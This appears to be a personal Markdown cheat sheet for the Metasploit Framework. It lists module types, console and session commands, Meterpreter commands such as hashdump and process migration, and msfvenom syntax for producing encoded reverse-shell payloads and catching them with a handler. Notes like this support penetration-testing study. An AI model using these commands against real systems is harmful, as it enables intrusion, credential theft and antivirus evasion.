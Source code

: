 # General


<details>
<summary>
  
# Framework Organisation  
</summary>

**Modules** \
The modules are located at /opt/metasploit-framework/embedded/framework/modules

**Auxiliary:**
- Scanners
- crawlers
- fuzzers

**Encoders:** 
- Encode exploit and payload to trick signature-based antivirus

**Evasion:**
- Direct evasion attempts of antivirus software

**Exploits**
- Neatly organised by target

**NOP's**
- No operations, used as buffers to achive consisten payload size

**Payloads**
- Adapters: Conver payloads into different formats. For example, a normal single payload can be wrapped inside a Powershell adapter, which will make a single powershell command that will execute the payload.
- Singles: Self-contained Payloads(add user, lauch calc.exe).
- Stagers: Form a connection to metasploit to download additional payloads(stages).
- Stages: Are loaded by the stager. Allows to use larger payload size.

**Post**
- Post-exploitation
</details>

# Basic Commands
`msfconsole` - Start metasploit console:  \
`help <command>` - Help  \
`history` - Show command history:  \
`show` - List modules and alike. Use `show -h` to see what can be showed \
`info <module>` - Show information about module  \
`search <what you want>` - Search \
`exit` - close metasploit

You can use many normal linux commands like in a linux terminal: `ls, cat, clear, ...`

# Contexts:
`use <module, e.g. exploit>` - With the `use` command we enter a module and start a new context for the selected module \
`back` - Exit context:  \
`info` - Info about context:  \
`show options` - List all available options(parameters)  \
`set <parameter> <value>` - Sets `<parameter>` to `<value>` \
`unset <parameter>` \
`unset all` - Unsets all parameters in the current context \
`setg` - Set parameter to default value across all contexts until you exit metasploit \
`unsetg` \
`exploit` - Run the exploit, use `-z` to run in background \
`check` - Check if target is vulnerable without exploiting. Not supported by all modules.

## Exploits
`show payloads` - show available payloads for the exploit

## Sessions:
Once a vulnerabilitay has successfully been exploited, a session is started.

`exploit -j` - launches the module as job in the background \
`background` - Sends the session to the background and presents the context prompt again \
`CTRL + Z` - Same as Background \
`sessions` - List sessions \
`sessions -i <session-number>` - Interact with the session

## Scanning
There are many many scanners use `search scanner <what_you_need>`
### UDP
**udp_sweep** \
`run` 

### SMB
**smb_enumshares** \
**smb_version**

# Database mode
`systemctl start postgresql` \
`msfdb init` \
`mfsconsole` \
`db_status` 

## Workspaces
`workspace -a` - add new workspace \
`-d` - delete \
`-h` - lists options \
`help` - lists the db backend commands \
`db_nmap` - runs nmap but stores results in db \

# Meterpreter
## Generl
Meterpreter runs in memory and therefore has no executable on the disk.
It is attached (running inside an other process).
Most Antivirus will still detect it, eventhough it is fairly stealthy.

## Commands
`help` - show commands \
`hashdump` - prints ntlm password hashes for all users it can find. Needs to be running in lsass.exe(local authority subsystem service). Migrate here first. \
`search` - search for files on the target system. \
`shell` - launch a regular command-line shell on that target system. CTRL+Z gets you back to meterpreter.

## Migrate
Once runnining one can migrate meterpreter to another process.
This can help escalate privileged and make the session more stable.
`getuid` - list the user with which meterpreter is running
`ps` - list all processes
`migrate <pid>` - migrate meterpreter to the process with "pid".

# Msfvenom
msfvenom replaced msfpayload and msfencode and allows you to generate payloads. \
`msfvenom -p <payload> <options>` - general syntax \
`msfvenom -p <OS/arch/shell/type> -f <format> -o <file_name> -e <encode_format> LHOST=<ip> LPORT=<port>` - example \
`-e <encode format>` - encode a payload. There are a variety of encoders available \
`-p <payload>` - select the payload \
`-f <format>` - output format. E.g. elf, raw, base64, exe, php, py, asp, ... \
`-o` - output file \
`LHOST=<ip>` - local ip \
`LPORT=<port>` - local port

## Staged vs Stageless payloads
`shell_<type>` - stageless \
`shell/<type>` - stages

## Handler
A handler catches an incomming connection from a payload (like a reverse shell) \
`use exploit/multi/handler` - can be used to catch incoming connections. Don't forget to set LHOST and LPORT. \




